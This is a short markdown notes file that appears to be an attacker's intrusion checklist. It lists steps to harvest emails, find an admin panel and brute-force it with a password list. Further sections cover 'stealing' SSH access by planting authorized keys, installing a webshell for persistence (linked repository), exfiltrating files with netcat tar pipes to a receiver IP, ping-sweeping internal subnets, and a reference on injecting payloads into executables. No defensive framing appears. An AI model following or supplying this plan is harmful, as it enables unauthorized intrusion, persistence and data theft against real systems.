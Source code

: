 # Steps:
get emails from site
find admin panel
use password list to get access

## steal ssh keys
### Create new SSH key
```
ssh-keygen 
chmod 700 ~/.ssh && chmod 600 ~/.ssh/authorized_keys
```
Export the private key to any machine I want to use to conenct again. 
### use ssh key to login
To use ssh-copy-id, pass your username and the IP address of the server you would like to access:
```
ssh-copy-id your_username@192.0.2.0
ssh your_username@192.0.2.0
```
### upload keys
In another terminal on your local machine, use scp to copy the contents of your SSH public key (id_rsa.pub) into the authorized_keys file on your server. Substitute in your own username and your server’s IP address:
```
scp ~/.ssh/id_rsa.pub your_username@192.0.2.0:~/.ssh/authorized_keys
```
### server: 
1. .ssh/authorized_keys
### client: 
1. .ssh/id_rsa – Holds the private key for the client
2. .ssh/id_rsa.pub – Holds the public key for the client
3. .ssh/known_hosts – Holds a list of host signatures of hosts that the client has previously connected to



## install webshell for persistence 
https://github.com/tennc/webshell

## NetCat File Transfer:
nc is basically a built-in tool from any UNIX-like systems (even embedded systems), so it's perfect for "quick and temporary way to transfer files". open a listen on port 12345, waiting for data.

1. on the receiver side, run:
```
nc -l 12345 | tar -xf -
```
2. on the sender side:
```
tar -cf - ALL_FILES_YOU_WANT_TO_SEND ... | nc $RECEIVER_IP 12345
```
2a. 
You can also put pv in the middle to monitor the progress of transferring:
```
tar -cf - ALL_FILES_YOU_WANT_TO_SEND ...| pv | nc $RECEIVER_IP 12345
```
After the transferring is finished, both sides of nc will quit automatically, and job done.

### Scan the Interior Network: 
for i in {1..254}; do ping -c 1 192.168.1.i; done 

for i in {1..254}; do for x in {1..254}; do ping -c 1 10.0.x.i; done; done 


# References:
https://sathisharthars.com/2014/06/04/create-and-add-a-payload-in-existing-executable/
